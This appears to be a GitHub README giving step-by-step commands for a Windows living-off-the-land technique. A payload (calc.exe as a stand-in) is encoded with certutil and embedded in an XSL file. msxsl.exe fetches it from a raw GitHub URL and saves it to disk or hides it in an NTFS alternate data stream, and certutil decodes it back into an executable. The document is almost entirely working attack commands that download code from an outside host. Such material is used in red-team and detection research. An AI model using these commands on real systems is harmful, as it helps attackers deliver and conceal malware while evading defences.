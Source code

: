 # Use-msxsl-to-download-file

## Create payload and insert into the XSL file:
```
certutil -encode C:\Windows\System32\calc.exe calc_payload.txt
```

Now copy the certutil encoded payload from calc_payload.txt and insert into calc_xsl.xml between `<TEST> </TEST>`


## Use MSXSL to download XSL file with certutil encoded payload and save to file:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl" -o <filename>

certutil -decode <filename> calc.exe
```

## Use MSXSL to download XSL file with certutil encoded payload and save to ADS:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl" -o <filename>:<ADS name>

certutil -decode <filename>:<ADS name> calc.exe
```
